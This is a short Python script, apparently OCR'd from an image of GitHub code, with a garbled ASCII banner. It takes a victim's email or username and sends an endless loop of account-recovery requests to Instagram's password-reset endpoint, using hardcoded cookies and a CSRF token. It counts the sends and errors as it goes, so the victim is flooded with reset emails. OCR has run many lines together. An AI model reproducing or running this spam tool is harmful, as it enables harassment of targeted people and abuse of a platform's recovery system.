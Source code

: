 import requests 
import time


print('''

| __ \ | | | __ \
| |) |_ ___ | | | |) |_ _ ___ ___ | _ // _ / |/ _ \ | | / ` / __/ __| | | \ \ _/_ \ _/ | | | | (| _ _ \
|| __||/_|_| || _,|/_/
''')

done = 0 err = 0

slee = input('[ + ] Enter Sleep [ ORIGINAL IS 1 ]: ') email = input('[ + ] Enter Email Or Username: ')

while 1 < 2: url = 'https://www.instagram.com/accounts/account_recovery_send_ajax/' headers = { 'accept': '/', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9', 'content-length': '101', 'content-type': 'application/x-www-form-urlencoded', 'cookie': 'ig_cb=2;ig_did=EA19AF2AD215-4891-ACA7-A8D1D255B13B;csrftoken=G7aKrsENKNoMigBkDxMDHmq5RtWyfepk;mid=YEfl9gAEAAGKGI_cAK6aUnBcC9Cn', 'origin': 'https://www.instagram.com', 'referer': 'https://www.instagram.com/accounts/password/reset/', 'sec-fetch-dest': 'empty', 'sec-fetch-mode': 'cors', 'sec-fetch-site': 'same-origin', 'user-agent': ': Mozilla/5.0(Windows NT 6.3; Win64;x64) AppleWebKit/537.36(KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36', 'x-csrftoken': 'G7aKrsENKNoMigBkDxMDHmq5RtWyfepk', 'x-ig-app-id': '936619743392459', 'x-ig-www-claim': '', 'x-instagram-ajax': '', 'x-requested-with': 'XMLHttpRequest', } data = { 'email_or_username': f'{email}', 'recaptcha_challenge_field': '', 'flow': '', 'app_id': '', 'source_account_id': '' } time.sleep(int(slee)) r = requests.post(url, headers=headers, data=data) if r.status_code == 200: done += 1 print(f"\r[ + ] Sent: {done} , [x] Error: {err}", end="") else: err += 1 print(f"\r[ + ] Sent: {done} , [x] Error: {err}", end="") if err == 5: print('\n[ x ] There is alot of errors , try again after 10 minutes') input('Press any key to exit: ')
